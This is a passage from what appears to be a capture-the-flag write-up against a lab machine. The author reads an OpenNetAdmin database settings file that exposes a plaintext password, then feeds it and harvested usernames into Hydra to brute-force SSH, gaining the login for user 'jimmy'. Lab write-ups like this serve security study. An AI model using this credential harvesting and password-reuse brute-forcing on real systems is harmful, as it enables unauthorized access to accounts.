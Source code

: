 ```bash
$ cat /opt/ona/www/local/config/database_settings.inc.php
<?php

$ona_contexts=array (
  'DEFAULT' =>
  array (
    'databases' =>
    array (
      0 =>
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);

$ ls /home -alh
total 16K
drwxr-xr-x  4 root   root   4.0K Nov 22 18:00 .
drwxr-xr-x 24 root   root   4.0K Nov 21 13:41 ..
drwxr-x---  5 jimmy  jimmy  4.0K Apr  7 05:54 jimmy
drwxr-x---  6 joanna joanna 4.0K Nov 28 09:37 joanna

```


After that, I create a user listw with this names and try the password found in database settings:

```bash

hydra -L users.txt -e nsr -P dic.lst ssh://10.10.10.171 -f
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-04-07 18:24:47
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 8 tasks per 1 server, overall 8 tasks, 8 login tries (l:2/p:4), ~1 try per task
[DATA] attacking ssh://10.10.10.171:22/
[22][ssh] host: 10.10.10.171   login: jimmy   password: n1nj4W4rri0R!
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-04-07 18:24:49

```

